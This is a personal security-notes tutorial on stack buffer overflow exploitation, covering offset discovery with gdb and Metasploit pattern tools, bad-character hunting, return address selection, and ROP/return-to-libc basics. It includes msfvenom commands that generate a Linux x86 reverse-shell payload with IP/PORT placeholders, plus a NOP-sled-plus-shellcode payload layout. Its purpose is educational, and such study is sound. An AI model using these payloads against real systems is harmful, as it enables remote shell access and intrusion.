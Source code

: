 ```yaml
---
title: Notes | Reverse | BOF
author: BatBato
date: 2022-12-07
categories: [Notes, Reverse, BOF]
tags: [Reverse, BOF]
permalink: /Notes/Reverse/BOF
---
```


# Buffer Overflow

From here I'm assuming that you already know a bit about ASM (```mov```, ```call```, ```lea```...). If you don't there is a good introduction in [here](https://cloud.isi.insa-cvl.fr/s/qWmEqLkSGXnkLZn).

So basically, the buffer overflow attack appears when you don’t pay attention to the user input and that he gives you a greater input than what you expected. This surplus will overwrite the memory.

We need to keep in mind the endianness of the system. If for example, we have a word ```\xAA\xBB\xCC\xDD``` at the address ```0xffff0000```, then depending on the endianness the word will be read differently :

| Memory Address | 	0xffff0000 | 	0xffff0001 | 	0xffff0002 | 	0xffff0003 |
|---|---|---|---|---|
| Big-Endian 	|AA | 	BB | 	CC | 	DD |
| Little-Endian | 	DD | 	CC | 	BB | 	AA |

What we would like to do is to give a greater input than the one expected so that we overwrite the return address of the program. Thanks to that, we will be able to call another function or something else in the memory. Here is an image that shows basically what we want to do :

![image](https://user-images.githubusercontent.com/73934639/206201166-ef62b19e-10da-4ae2-a3b5-d7139375b54f.png){: width="300" height="100" }

At first, we will try to find the main function and its address. For that, we can use gdb or radare2. I will continue this explanation using gdb syntax but it is basically the same on r2. We will run the program until we get to the input part, when we get there we can input a large number of ```A``` and if we inputed enought A, we should get a :
```sh
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

The ```41``` are the hexadecimal value of ```A```. Now that we know that we overwrote the return address we need to find how much ```A``` we need to input before getting a segmentation fault. We can use the ```pattern_offset``` tool of ```metasploit``` to generate a random string of certain length so we don't have a bunch of ```41``` in the memory. We can use it as follows:
```sh
pattern_create.rb -l 1200
```

> This program should be in the ```metasploit-framework``` folder. On my computer it is located at ```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb```.
{: .prompt-info }

We can use the gdb command to find the address of ```EIP``` (respectively ```RIP``` depending on the architecture) :
```sh
info registers eip
```

With this information you can use the metasploit ```pattern_offset.rb``` tool to find the exact offset. Or if you are good in ASM you can look what is the length of the word you give in input. You can use the tool as follows (where 0xaabbccdd is the value storred in EIP that you found earlier):
```pattern_offset.rb -q 0xaabbccdd```

> You can find ```pattern_offset.rb``` in ```/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb```.
{: .prompt-info}

We will assume that we have an offset of 64 for the rest of the demonstration. Now we can run the program again with the offset length as input and 4 bytes of "B"s. 4 is the size of the return address (here in 32 bi ELF). Here is an example:
```sh
"A" * 64 + "B"*4
```

You can use this python command to generate your strings: 
```sh
python2 -c "print 'A' * 64 + 'B' * 4"
```

> This command only works in python2. You can use the following command in python3 : ```python3 -c "print('A' * 64 + 'B' * 4)"```
{: .prompt-tip}

> You may need ```gdb-peda``` for this kind of command. You can find it [here](https://www.kali.org/tools/gdb-peda/)
{: .prompt-warning}

With this input we should only have the 4 "B"s as EIP address like:
```sh
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

For this first part of BOF, we will use [msfvenom](https://www.kali.org/tools/metasploit-framework/#msfvenom). To create a reverse shell payload, we can use the following command:
```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP lport=PORT --platform linux --arch x86 --format python
```

> Don't forget to replace ```IP``` with yours. Same for the ```PORT```.
{: .prompt-tip}

Now if this is too long you can change it to a simple shell instead of a reverse one.
The composition of our final payload will be:
```python
Buffer = "C" * (64 - 10 - 40 - 4) = 10
NOPs = "\x90" * 10
Shellcode = "A" * 40
EIP = "B" * 4
```

> ```\x90``` is the hexadecimal value of the ```NOP``` instruction.
{: .prompt-tip}

## Bad Characters

Your payload may not work because of some ```Bad Characters```. They are generaly ```\x00``` (Null byte),```\x0A``` (Line Feed),```\x0D``` (Carriage Return),```\xFF``` (Form Feed).

Here is the list of all chars from ```\x00``` to ```\xFF```:
```python
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

You can remove the NOPs and the shellcode from the previous payload and replace them by this list. If the list is too long (256 chars) you can do it multiple time with different parts of the list. Now you can set a breakpoint just after the input so that we can analyse the memory. When the program hits the breakpoint, we can look at the ```EIP``` like that ```x/2000xb $esp+500```. We will see a bunch of ```0x43``` (our "C"s). At the end of our "C"s we should see the characters of our previous list. If a character isn't printed out, it means that it is a bad character. You can repeat those steps until you removed all the bad characters.

> Don't forget to change the number of "C"s when you remove a bad character from the list. The number of "C"s should increase by one each time you remove a bad character.
{:.prompt-warning}

You can now use the previous ```msfvenom``` command specifying all bad characters:
```sh
msfvenom -p linux/x86/shell_reverse_tcp lhost=IP lport=PORT  --arch x86 --platform linux --format python --bad-chars "\x00\x09\x0a"
```

## Identification of the Return Address

Now we should replace our 4 "B"s by the address of our shellcode. For that we need to analyse the memory. We can do so like:
```sh
x/2000xb $esp+1400
```

We will see where our NOPs (```0x90```) end and where our shellcode begins. For example, if the NOPs end at ```0xffffaabb```, then we will replace our 4 "B"s by ```\xbb\xaa\xff\xff```. To be more accurate we can choose an address that is full of NOP a bit before ```0xffffaabb```like ```0xffffaaaa``` for example.

# ROP chain attack

A ROP (Return-Oriented Programming) chain is a technique used in exploitation of memory safety vulnerabilities, where an attacker controls the flow of execution by chaining together small code snippets (gadgets) found within the program itself or its libraries.

The attacker constructs a ROP chain by overwriting the return address of a function with the address of a ROP gadget, which performs some actions (such as setting up a register or stack) before returning to the next gadget in the chain. The attacker repeats this process until the final gadget transfers control to the attacker's payload (such as executing shellcode).

You can find [here](https://github.com/Nouman404/nouman404.github.io/blob/main/_posts/Notes/Reverse/exploit.py) a code for a basic ```ROP chain attack```. As you can see, I used as offset ```0x40+4```. The ```0x40``` can be found in the code using ```gdb``` here ```add    esp,0x4``` and the ```+4``` is because of the file is a ```ELF 32-bit``` format.

> To know if the file is either a 32 or 64 bit ELF executable you can use the ```file``` Linux command like:```file VULN_EXECUTABLE```
{: .prompt-tip }


You can find the ```system``` call and the address of ```/bin/sh``` by using the search command like ```search /bin/sh``` or by using ```info proc mapping``` to print the range of addresses of your program and the libc. After using the ```info proc mapping```, you can use the find command as follows ```find 0xf7c00000, 0xf7e22000, "/bin/sh"```. The two addresses you see are the range of addresses where we want to search the ```/bin/sh```.

> It may be better to look only on addresses of the program and after that, only on the libc addresses. Searching in both range of addresses may cause errors.
{: .prompt-tip }

> You may need to use ```return to libc``` to recover those addresses if the program uses ```Data Execution Prevention``` (DEP) and ```Address Space Layout Randomization``` (ASLR).
{: .prompt-tip }

You can also look at this really great [video](https://www.youtube.com/watch?v=i5-cWI_HV8o) of John Hammond about ROP chain attack. He explains more in detail how to use the ```return to libc```.
